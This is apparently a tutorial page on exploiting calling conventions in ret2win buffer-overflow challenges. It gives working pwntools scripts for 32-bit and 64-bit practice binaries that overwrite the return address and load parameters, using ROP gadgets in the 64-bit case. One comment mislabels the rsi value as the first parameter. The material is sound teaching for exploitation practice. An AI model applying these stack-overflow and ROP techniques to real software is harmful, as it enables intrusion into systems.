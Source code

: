 ```yaml
---
description: Utilising Calling Conventions
---
```


# Exploiting Calling Conventions

{% file src="../../../.gitbook/assets/exploiting\_with\_params.zip" caption="ret2win with Parameters" %}

### 32-bit

The program expects the stack to be laid out like this before executing the function:

```text
return pointer    param1    param2    param3
```

So why don't we provide it like that? As well as the function, we also pass the return address and the parameters.

```text
<flag address>    <ret. pointer>    <param1>    <param2>
```

Everything after the address of `flag()` will be part of the stack frame for the next function as it is **expected** to be there - just instead of using `push` instructions we just overwrote them manually.

```python
from pwn import *

p = process('./vuln-32')

payload = b'A' * 52            # Padding up to EIP
payload += p32(0x080491c7)     # Address of flag()
payload += p32(0x0)            # Return address - don't care if crashes when done
payload += p32(0xdeadc0de)     # First parameter
payload += p32(0xc0ded00d)     # Second parameter

log.info(p.clean())
p.sendline(payload)
log.info(p.clean())
```

### 64-bit

Same logic, except we have to utilise the gadgets we talked about previously to fill the required registers \(in this case `rdi` and `rsi` as we have two parameters\).

We have to fill the registers _before_ the function is called

```python
from pwn import *

p = process('./vuln-64')

POP_RDI, POP_RSI_R15 = 0x4011fb, 0x4011f9


payload = b'A' * 56            # Padding
payload += p64(POP_RDI)        # pop rdi; ret
payload += p64(0xdeadc0de)     # value into rdi -> first param
payload += p64(POP_RSI_R15)    # pop rsi; pop r15; ret
payload += p64(0xc0ded00d)     # value into rsi -> first param
payload += p64(0x0)            # value into r15 -> not important
payload += p64(0x40116f)       # Address of flag()

log.info(p.clean())
p.sendline(payload)
log.info(p.clean())
```

